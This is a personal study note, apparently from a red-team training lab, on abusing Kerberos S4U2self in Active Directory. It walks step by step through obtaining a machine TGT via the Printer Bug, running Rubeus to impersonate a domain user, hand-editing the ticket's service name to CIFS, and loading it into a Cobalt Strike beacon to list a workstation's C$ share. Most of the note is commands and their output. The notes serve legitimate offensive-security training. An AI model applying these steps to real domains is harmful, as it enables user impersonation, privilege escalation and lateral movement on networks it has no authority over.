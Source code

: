 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[S4U2self Absue]]  
___

## Description:  

Start by getting a tgt through [[Printer Bug]]

S4U2self allows a service to obtain a TGS to itself on behalf of a user, and S4U2proxy allows the service to obtain a TGS on behalf of a user to a second service.

use `/ticket:rto.kirbi` to export ticket locally with a rubeus command.

We can gain access to a domain computer if we have its RC4, AES256 or TGT.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /user:WKSTN-2$ /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /impersonateuser:nlamb /ticket:doIFLz[...snip...]MuSU8= /nowrap

[*] Action: S4U
[*] Building S4U2self request for: 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MtMiQ=

[*] Impersonating user 'nlamb' to target SPN 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION

```

The S4U2proxy step will fail, which is fine.  Write the S4U2self TGS to a file.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi", [System.Convert]::FromBase64String("doIFdD [...snip...] MtMiQ="))
```

Use `Rubeus describe` to show information about the ticket.

```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  WKSTN-2$
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=

```

The `ServiceName` of WKSTN-2$ is not valid for our use - we want it to be for CIFS.

To modify the ticket, open it with the ASN editor in `C:\Tools\Asn1Editor`.  Find the two instances where the **GENERAL STRING** "WKSTN-2$" appears.

Double-click them to open the **Node Content Editor** and replace these strings with "cifs".  We also need to add an additional string node with the FQDN of the machine.  Right-click on the parent **SEQUENCE** and select **New**.  Enter **1b** in the **Tag** field and click **OK**.  Double-click on the new node to edit the text.

Save the ticket and use `Rubeus describe` again.  Notice how the `ServiceName` has now changed.
```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  cifs/wkstn-2.dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

To use the ticket, simply pass it into your session.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     01/20/2022 16:46:38   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     05/06/2021 09:35:17   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     02/28/2022 09:30:57   pagefile.sys

```

can use this to convert base64 ticket to a useable ticket:

```
[IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\sql$.kirbi", [Convert]::FromBase64String("<base64 blob>"))
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:45 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
